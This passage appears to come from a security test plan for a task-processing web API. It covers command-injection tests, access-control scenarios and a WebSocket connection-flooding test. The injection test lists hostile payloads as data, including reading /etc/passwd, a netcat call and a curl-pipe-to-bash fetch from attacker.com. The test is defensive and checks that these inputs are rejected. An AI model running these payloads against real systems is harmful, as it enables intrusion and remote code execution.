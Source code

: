 ```python
            assert payload not in response.text
    
    def test_command_injection(self):
        cmd_payloads = [
            "; cat /etc/passwd",
            "| nc attacker.com 4444",
            "`whoami`",
            "$(curl attacker.com/shell.sh | bash)"
        ]
        
        for payload in cmd_payloads:
            response = requests.post('/api/v1/tasks', json={
                'platform': payload,
                'url': 'http://example.com/test.difypkg'
            })
            # Verify command is not executed
            assert response.status_code in [400, 422]
```

### 4.2 Authentication & Authorization Testing

#### Test Case: API Access Control
```yaml
test_name: "API Authorization Tests"
scenarios:
  - name: "Unauthenticated Access"
    endpoints:
      - GET /api/v1/files
      - POST /api/v1/tasks
      - GET /api/v1/tasks/{task_id}
    expected: "All endpoints accessible (current design)"
    recommendation: "Implement API key authentication"
  
  - name: "Task ID Enumeration"
    test: "Sequential UUID guessing"
    expected: "404 for non-existent tasks"
    
  - name: "Cross-User Resource Access"
    test: "Access other users' tasks/files"
    current_state: "No user isolation"
    recommendation: "Implement user sessions"
```

### 4.3 WebSocket Security Testing

#### Test Case: WebSocket Vulnerabilities
```javascript
// WebSocket security test
const WebSocket = require('ws');

class WebSocketSecurityTest {
    testConnectionFlooding() {
        const connections = [];
        for (let i = 0; i < 10000; i++) {
            try {
                const ws = new WebSocket('ws://localhost/ws/tasks/fake-id');
                connections.push(ws);
            } catch (e) {
                console.log(`Connection limit reached at: ${i}`);
                break;
            }
        }
    }
```